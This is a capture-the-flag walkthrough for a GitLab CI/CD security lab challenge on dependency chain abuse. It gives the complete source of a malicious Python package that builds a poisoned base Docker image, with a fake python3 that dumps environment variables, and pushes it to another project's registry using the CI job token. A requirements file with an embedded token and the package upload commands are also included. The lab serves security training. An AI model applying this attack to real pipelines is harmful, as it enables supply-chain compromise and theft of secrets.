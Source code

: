 [![CICD-SEC-3 Dependency Chain Abuse](https://img.shields.io/badge/CICD--SEC--3-Dependency%20Chain%20Abuse-brightgreen)](https://www.cidersecurity.io/top-10-cicd-security-risks/dependency-chain-abuse/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_100422)


Let's explore what we have when signing in to the compromised GitLab:
You are the maintainer of *pygryphon* package, there are also public projects *nest-of-gold* and *awesome-app* which we have a read-only access.
<BR><BR>
As the instructions of this challenge hint us, let's try to see if we can find any reference to *Flag11*.
  <BR>
A simple search tells us it is being referenced by *nest-of-gold* project 
  <BR><BR><BR>

![grpyhon](../images/gryphon-1.png "grpyhon")

  <BR><BR><BR>
We can see that *Flag11* is used in a pipeline that ships a container used in production.
Let's go to this pipeline scheduling, we can see that user named "gryphon" is the owner of this pipeline, and this user is also the owner of the *awesome-app* project's pipeline.
  
Diving into *awesome-app*, it is using our pygrphon package as a dependency!  
this is what the *requirments.txt* file looks like:
  
 <pre><code>
 
 --extra-index-url http://token:cd79dd622c6d463a574635e874765c0b@gitlab/api/v4/projects/pygryphon%2Fpygryphon/packages/pypi/simple --trusted-host gitlab

pytest==7.2.0
flask==2.0.3
Werkzeug==2.0.3
pygryphon==1.0.13
 
</code></pre> 
  <BR><BR><BR>

This means we can influence *awesome-app* pipeline by uploading a new malicious python package of *pygrphon*.
Our end goal is within *nest-of-gold* project, how can we influence it's pipeline?
  
GitLab has a special setting whether or not a pipeline "CI_JOB_TOKEN" is limited to the specific project or have access to other projects under the same user.
This mean if this setting is disabled, we will be able to interact with *nest-of-gold* project.
<BR><BR><BR>


![grpyhon2](../images/gryphon-2.png "grpyhon2")  
<BR><BR><BR>

  
Because our end goal is to reach the "production" docker produced by *nest-of-gold* pipeline, let's have a look at the Dockerfile inside *nest-of-gold* we can see it is dependent on python:3.8 docker image from nest-of-gold container registry and not the offical registrar.
  
   <pre><code>
 
FROM gitlab:5050/wonderland/nest-of-gold/python:3.8

WORKDIR /app
COPY app.py .
COPY requirements.txt .
RUN pip3 install -r requirements.txt

CMD [ "python3", "-m" , "flask", "run", "--host=0.0.0.0"]

 
</code></pre> 
  
Here's comes the tricky part 🥸, let's create a malicious pygryphon package that pushes a malicious python3.8 docker base image to *nest-of-gold* container registry, we are able to do so because the "CI_JOB_TOKEN" is not limited to *awesome-app* project.
In this package let's create a script named "python3" that the docker image of *nest-of-gold* will execute mistakenly instead of the actual python3 interpreter.   
pygryphon package content:
  
 <pre><code>
   import subprocess

DOCKERFILE = """FROM python:3.8
COPY python3 /usr/local/bin/
COPY python3 /usr/local/bin/pip3"""
PYTHON3 = """#!/bin/bash
env | grep FLAG11 || true"""


def run(cmd):
    proc = subprocess.run(cmd, shell=True, timeout=180)
    print(proc.stdout)
    print(proc.stderr)


def hello(name):
    """
    This function greets to
    the person passed in as
    a parameter
    """
    run('apk add docker-cli')
    with open('Dockerfile', 'w') as f:
        f.write(DOCKERFILE)
    with open('python3', 'w') as f:
        f.write(PYTHON3)
    run('chmod +x python3')
    run('DOCKER_HOST=tcp://docker:2375 docker build -t gitlab:5050/wonderland/nest-of-gold/python:3.8 .')
    run('DOCKER_HOST=tcp://docker:2375 docker login -u gryphon -p $TOKEN $CI_REGISTRY')
    run('DOCKER_HOST=tcp://docker:2375 docker push gitlab:5050/wonderland/nest-of-gold/python:3.8')
    return "Hello, " + name

 </code></pre> 
  
And then build and upload this package to gryphon package registry (after we have configured "gitlab" as our a package registry 
  
   <pre><code>
   pipenv run python3 -m build [path_to_package]
   pipenv run python3 -m twine upload -r gitlab
 </code></pre> 

